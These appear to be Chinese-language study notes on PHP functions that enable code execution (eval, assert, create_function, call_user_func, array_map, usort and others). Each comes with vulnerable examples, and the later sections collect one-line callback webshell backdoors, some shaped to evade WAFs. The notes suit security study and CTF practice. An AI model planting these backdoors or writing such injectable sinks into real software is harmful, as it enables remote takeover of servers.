# **eval()**
将传入的字符串当作PHP代码来执行
# **assert()**
其与 eval() 类似，传入的内容会被当做代码来执行，不同的是eval中传入的值可以不用分号来结尾。<br />assert()函数也可进行拆分调用，这是与 eval() 函数很大的不同点，有时可以用来绕过一些WAF的防 <br />御。
```php
<?php 
  highlight_file(__FILE__); 
  $a='ass'; 
  $b='ert'; 
  $c=$a.$b; 
  @$c($_REQUEST['value']); 
?>
```
# **preg_replace()**
该函数有三个参数，用于执行一个正则表达式的搜索和替换 <br />搜索 subject 中匹配 pattern 的部分， 如果匹配成功以 replacement 进行替换
### 语法
:::tips
preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int <br />$limit = -1 [, int &$count ]] ) 
:::
:::tips
$pattern 存在 /e 模式修正符，允许代码执行 <br />/e 模式修正符，是 preg_replace()将$replacement参数值当做php代码来执行 
:::
# **create_function()**
PHP中的匿名函数，相当于定义了一个没有名字的函数，该函数直接用 变量 进行调用。 <br />第一个参数参数是函数传递的参数，第二个参数相当于函数中的函数体。
### 语法
:::tips
create_function ( string $args , string $code )
:::
### 代码示例
第二个参数会在内部执行 eval() ，在这里也就是执行后面的 return 语句
:::tips
<?php <br />highlight_file(__FILE__); <br />$func = create_function('$a,$b', 'return $a + $b;'); <br />echo $func(2, 3) . "\n"; <br />?>
:::
上面的代码可以等价于以下代码只不过匿名函数是用变量来调用的，而非匿名变量是通过函数名来调用 <br />的。
:::tips
<php<br />highlight_file(__FILE__); <br />function func($a,$b){ <br />return $a+$b; <br />}<br />echo func(2,3) <br />?>
:::
### 利用示例
当 create_function() 中传入的参数可控时就会造成代码执行
:::tips
<?php <br />highlight_file(__FILE__); <br />$a = create_function('$arg',$_REQUEST['x']); <br />?>
:::
由于 $a 在被调用时才会触发执行匿名函数，所以我们通过传入的参数闭合该匿名函数的 } ，就造成了代 <br />码执行,实际情况中要根据具体闭合条件进行闭合，从而使我们想要执行的代码独立出来。 <br />// 注释当前行代码(单行注释) <br />/* 注释之后所有代码(多行注释)<br />
# **array_map()**
array_map() 函数返回用户自定义函数作用后的数组。回调函数接受的参数数目应该和传递给 <br />array_map() 函数的数组数目一致。
### 语法
:::tips
array_map(function,array1,array2,array3...) 
:::
### 代码示例
array_map() 将调用 sum_num() 函数，去执行该函数，这也就是上面所说的函数回调。且**后面传入的 **<br />**参数要与回调的函数参数数目保持一致**。
:::tips
<?php <br />highlight_file(__FILE__); <br />function sum_num($v,$s) <br />{<br />return $v+$s; <br />}<br />$a=array(45,33); <br />$b=array(45,33); <br />var_dump(array_map("sum_num",$a,$b)); ; <br />?>
:::

### 利用示例
当传入的参数可控时就会造成代码执行
:::tips
<?php<br />highlight_file(__FILE__); <br />$cmd = array_map($_REQUEST['arg1'],array($_REQUEST['arg2'])); <br />?>
:::
当我们传入assert, array_map() 函数就会回调 assert() 函数去执行我们后面传入的参数 phpinfo() , <br />相当于 assert(phpinfo())<br />
# **call_user_func()**
第一个参数作为回调函数调用, 其余参数是回调函数的参数：
:::tips
call_user_func ( callable $callback [, mixed $parameter [, mixed $… ]] ) 
:::
### 利用示例
当我们传入的参数可控时就会造成RCE
:::tips
<?php<br />highlight_file(__FILE__); <br />call_user_func($_GET['a1'],$_GET['a2']); <br />?>
:::
<br />

`call_user_func($action, ...$parameters);`这样的形式可以让$parameters传入一个数组

与`call_user_func_array()`基本一样

# **call_user_func_array()**
把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入, <br />与 call_user_func() 函数不同的是，该函数传入的参数是以数组的形式传入的。
### 语法
:::tips
call_user_func_array ( callable $callback , array $param_arr ) 
:::
### 示例代码
这里需要注意的是参数必须以数组形式传入,如下面的 $a 。
:::tips
<?php <br />highlight_file(__FILE__); <br />function porduct_num($v,$s) <br />{<br />return $v*$s; <br />}<br />$a=array(2,3); <br />echo call_user_func_array("product_num",$a); <br />?>
:::

### 利用示例
当传入的参数可控时就会造成RCE
:::tips
<?php<br />highlight_file(__FILE__); <br />call_user_func_array($_GET['arg1'],$_GET['arg2']); <br />?>
:::
这里的 arg2 传入的参数就是以数组形式就行传递的<br /><br />如果直接不以数组形式就行传递就会导致致命错误<br />


# **array_filter()**
把输入数组中的**每个键值**传给回调函数，与 call_user_func_array() 不同的是，该函数的第一个参数 <br />为回调函数的参数，而第二个参数则是传入的回调函数。 <br />代码示例： <br />当传入的参数可控时就会造成RCE
:::tips
<?php<br />highlight_file(__FILE__); <br />array_filter(array($_REQUEST['arg1']),$_REQUEST['arg2']); <br />?>
:::

# **ob_start()**
用于打开输出控制缓冲，如果参数可控也可造成RCE。
:::tips
<?php<br />highlight_file(__FILE__); <br />$cmd = 'system'; <br />ob_start($cmd); //打开输出区缓存 <br />echo "$_REQUEST['arg']"; <br />ob_end_flush(); //关闭缓存 <br />?>
:::

# **usort()**
使用用户自定义的比较函数对数组中的元素进行排序，该函数第二个参数是用户自定义的回调函数。
### 语法
:::tips
usort ( array &$array , callable $value_compare_func ) 
:::
### 代码示例
:::tips
<?php <br />highlight_file(__FILE__); <br />function my_sort($a, $b) <br />{ <br />if ($a == $b) return 0; <br />return ($a < $b) ? -1 : 1; <br />}<br />$a = array(4, 2, 8, 6,10,21); <br />var_dump(usort($a, "my_sort")); <br />$arrlength=count($a); <br />for($x=0;$x<$arrlength;$x++) <br />{ <br />echo $a[$x]; <br />echo "<br>"; <br />}<br />?>
:::
回调用户自定义 my_sort() 函数对 $a 数组中的值进行排序<br />
### 利用示例
如果 usort() 函数参数可控,也可能可造成RCE。PHP版本>=5.6可实现
:::tips
<?php <br />highlight_file(__FILE__); <br />var_dump(usort($_REQUEST,"assert")); <br />?>
:::

# **array_walk()**
使用用户自定义函数对数组中的每个元素做回调处理，该函数的第二个参数也为回调的自定义函数。
### 语法
:::tips
array_walk ( array &$array , callable $callback [, mixed $userdata = NULL ] )
:::
### 代码示例
:::tips
<?php <br />highlight_file(__FILE__); <br />function myfunction($value,$key) <br />{<br />echo "The key $key has the value $value<br>"; <br />}<br />$a=array("a"=>"red","b"=>"green","c"=>"blue"); <br />array_walk($a,"myfunction"); <br />?>
:::
回调上面的 myfunction() 函数，对 $a 赋值的键值对进行处理。<br />
### 利用示例
如果 array_walk() 函数参数可控,也可能可造成RCE 
:::tips
<?php <br />highlight_file(__FILE__); <br />array_walk($_GET['arg1'],$_GET['arg2']); <br />?>
:::
由于传入的参数为数组，所以形参需在后面加 []<br />
# register_shutdown_function
[PHP: register_shutdown_function - Manual](https://www.php.net/manual/zh/function.register-shutdown-function.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
```
# register_tick_function
[PHP: register_tick_function - Manual](https://www.php.net/manual/zh/function.register-tick-function.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
```
# filter_var
[PHP: filter_var - Manual](https://www.php.net/manual/zh/function.filter-var.php)
### 回调后门
```php
<?php
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));
filter_var_array(array('test' => $_REQUEST['pass']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));
```
# 二参数回调函数
版本 php>5.4.8
# uasort
[PHP: uasort - Manual](https://www.php.net/manual/zh/function.uasort.php)
### 回调后门
```php
<?php
  $e = $_REQUEST['e'];
  $arr = array('test', $_REQUEST['pass']);
  uasort($arr, base64_decode($e));
```
# uksort
[PHP: uksort - Manual](https://www.php.net/manual/zh/function.uksort.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array('test' => 1, $_REQUEST['pass'] => 2);
uksort($arr, $e);
```
# array_reduce
[PHP: array_reduce - Manual](https://www.php.net/manual/zh/function.array-reduce.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array(1);
array_reduce($arr, $e, $_POST['pass']);
```
# array_udiff
[PHP: array_udiff - Manual](https://www.php.net/manual/zh/function.array-udiff.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass']);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);
```
# 三参数回调函数
版本 php < 5.5<br />[PHP: mb_ereg_replace - Manual](https://www.php.net/manual/zh/function.mb-ereg-replace.php)
```php
<?php
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');
```
[PHP: preg_filter - Manual](https://www.php.net/manual/zh/function.preg-filter.php)
```php
<?php
echo preg_filter('|.*|e', $_REQUEST['pass'], '');
```
配合pre_replace的e模式使用
```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk($arr, $e, '');
```
# array_walk_recursive
[PHP: array_walk_recursive - Manual](https://www.php.net/manual/zh/function.array-walk-recursive.php)
### 回调后门
```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk_recursive($arr, $e, '');
```
# 其它参数型回调后门
# preg_replace_callback
[PHP: preg_replace_callback - Manual](https://www.php.net/manual/zh/function.preg-replace-callback.php)
```php
<?php
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);
```
# mb_ereg_replace_callback
[PHP: mb_ereg_replace_callback - Manual](https://www.php.net/manual/zh/function.mb-ereg-replace-callback.php)
```php
<?php
mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);
```
# CallbackFilterIterator
[PHP: CallbackFilterIterator - Manual](https://www.php.net/manual/zh/class.callbackfilteriterator.php)
```php
<?php
$iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));
foreach ($iterator as $item) {
    echo $item;
}
```
# **动态函数**
PHP函数直接由字符串拼接，且拼接内容可控就会导致RCE
### 利用示例
:::tips
<?php <br />highlight_file(__FILE__); <br />$_REQUEST['arg1']($_REQUEST['arg2']); <br />?>
:::
这种动态函数代码执行的方式相信大家很好理解，传入的第一个参数则为函数名，而第二个参数则传入 <br />参数值。如下面的 system 为函数， calc.exe 为函数值，从而拼接后执行 system(calc.exe); 弹出计 <br />算器。<br />
